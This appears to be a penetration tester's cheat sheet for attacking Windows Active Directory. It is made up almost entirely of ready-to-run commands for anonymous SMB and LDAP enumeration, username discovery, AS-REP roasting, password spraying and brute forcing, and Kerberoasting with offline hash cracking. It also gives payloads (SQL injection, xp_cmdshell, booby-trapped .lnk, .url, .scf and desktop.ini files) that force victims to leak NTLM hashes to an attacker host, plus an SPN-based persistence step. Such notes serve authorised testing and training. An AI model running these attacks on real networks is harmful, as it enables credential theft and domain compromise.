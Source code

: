 # Active Directory

## AD enum (NO creds/sessions)

### Basic recon

```sh
nxc smb <target>
enum4linux -a <target>
nmap -n -sV --script "ldap* and not brute" -p 389 <target>
```

### SMB enum

```bash
# null session
nxc smb <IP> -u '' -p '' --shares
# guest
nxc smb <IP> -u 'guest' -p '' --shares
```

```bash
# null session
smbclient -N -L //<target>
# guest
smbclient -U 'guest%' -L //<target>
# conect to a share
smbclient [-U 'guest%'] [-N] //<target>/<share>
```

```bash
# null session
smbmap -H <target>
# guest
smbmap -u 'guest' -p '' -H <target>
# recursive listing
smbmap [-u 'guest' -p '] -H <target> -r [<share>]
```

### User enum

```bash
#kerbrute
kerbrute userenum -d <domain> [--dc <target>] users.txt
```

```bash
# smb/rpc/ldap
nxc smb <target> [-u 'guest' -p ''] --users
rpcdump.py [[domain/]guest:@]<target>
```

```bash
# rid cycling
nxc smb [-u 'guest' -p ''] --rid-brute <target>
lookupsid.py [-no-pass] [[domain/]guest:@]<target>
seq 500 1500 xargs -P 50 -I{} rpcclient -U 'guest%' <target> -c 'lookupsids S-1-123-{}'
```

### With valid username list

* AS-REP Roast

```bash
GetNPUsers.py -no-pass -usersfile valid_users.txt <domain>/
```

* Password Spraying/Brute Forcing

```bash
# brute forcing
nxc smb <target> -u valid_users.txt -p passwords.txt
kerbrute bruteuser -d <domain> [--dc <target>] passwords.txt '<user>'

# password spraying
nxc smb <target> -u valid_users.txt -p '<password>'
kerbrute passwordspray -d <domain> [--dc <target>] valid_users.txt '<password>'
```

### Capturing NTLM hashes

#### Network poisoning

```bash
responder -I <interface>
```

#### Possible Attacks

> https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/

* Via web vulnerability

&#x20;If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```powershell
# LFI
?page=\\10.10.10.10\test

# SSRF
?url=file://10.10.10.10/test

# SQL Injection
?id=1' union select null,load_file('\\\\10.10.10.10\\test'),null-- -
# MSSQL
?id=1' union select null,(select x from OpenRowset(BULK '\\10.10.10.10\test',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\10.10.10.10\test'),null-- -
```

* Shortcut.lnk File

```powershell
# Create a shortcut.lnk with PowerShell
$targetPath = "\\10.10.10.10\test" 
$shortcutPath = "C:\path\to\your\~shortcut.lnk" 
$WScriptShell = New-Object -ComObject WScript.Shell 
$shortcut = $WScriptShell.CreateShortcut($shortcutPath) 
$shortcut.TargetPath = $targetPath 
$shortcut.Save()
```

* Shortcut.url File

```powershell
# Create a shortcut.url with PowerShell
echo '[InternetShortcut]' > ~shortcut.url
echo 'URL=file:////10.10.10.10/test' >> ~shortcut.url
```

* SCF File

```powershell
echo '[Shell]' > ~file.scf
echo 'Command=2' >> ~file.scf
echo 'IconFile=explorer.exe,3' >> ~file.scf
echo '[Taskbar]' >> ~file.scf
echo 'Command=ToggleDesktop' >> ~file.scf
echo '[InternetShortcut]' >> ~file.scf
echo 'URL=file:////10.10.10.10/test' >> ~file.scf
```

* Desktop.ini File

```powershell
echo '[.ShellClassInfo]' > desktop.ini
echo 'IconResource=\\10.10.10.10\test' >> desktop.ini
attrib +s +h desktop.ini
```

## AD enum (WITH creds/sessions)

### BloodHound enum

You have to configure your neo4j and bloodhound on your machine, then:

```bash
# neo4j
export JAVA_HOME=/usr/lib/jvm/java-11-openjdk/ && neo4j console
# bloodhound
bloodhound
```

#### SharpHound

> https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors

```powershell
# EXE
.\SharpHound.exe -CollectionMethods All
# PS1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethods All -OutputDirectory .
```

### Kerberoast

{% hint style="danger" %}
If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` it's because of your local time, you need to synchronise the host with the DC. There are a few options:

```bash
ntpdate <target>
rdate -n <target>
```
{% endhint %}

#### Attack

```bash
GetUserSPNs.py -request [-dc-ip <target>] <domain>/<user>:<password>
```

#### Cracking

```bash
john --format=krb5tgs --wordlist=passwords.txt hashes
hashcat -m 13100 --force -a 0 hashes passwords.txt
```

#### Persistence

> https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

```powershell
#PowerView
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='test/test'} -verbose
```
